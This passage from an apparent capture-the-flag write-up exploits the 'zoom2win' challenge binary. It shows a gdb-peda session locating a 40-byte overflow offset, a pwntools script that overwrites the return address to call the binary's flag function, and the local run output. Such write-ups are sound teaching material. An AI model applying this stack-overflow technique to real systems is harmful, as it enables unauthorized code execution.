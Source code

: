 ```shell
$ gdb ./zoom2win
...
gdb-peda$ pattern_create 50
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
gdb-peda$ r
Starting program: /root/kq/zoom2win/zoom2win 
Let's not overcomplicate. Just zoom2win :)
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA

Program received signal SIGSEGV, Segmentation fault.
...
Stopped reason: SIGSEGV
0x00000000004011dd in main ()
gdb-peda$ bt
#0  0x00000000004011dd in main ()
#1  0x4141464141304141 in ?? ()
...
gdb-peda$ pattern_offset 0x4141464141304141
4702116732032008513 found at offset: 40
```

We can write a basic exploit using a standard pattern and pwntools that I've been writing a lot of lately:

```python
from pwn import *

binary = ELF('zoom2win')

payload = b'A' * 40
payload += p64(binary.sym["flag"])

local = True
if local:
    p = process("./zoom2win")
else:
    p = remote("143.198.184.186", 5003)
p.recvline()
p.sendline(payload)
p.interactive()
p.close()
```

And when I try this locally it works, great!

```shell
$ python exploit.py 
[*] '/root/kq/zoom2win/zoom2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './zoom2win': pid 839936
[*] Switching to interactive mode
local_test_flag
[*] Got EOF while reading in interactive
```
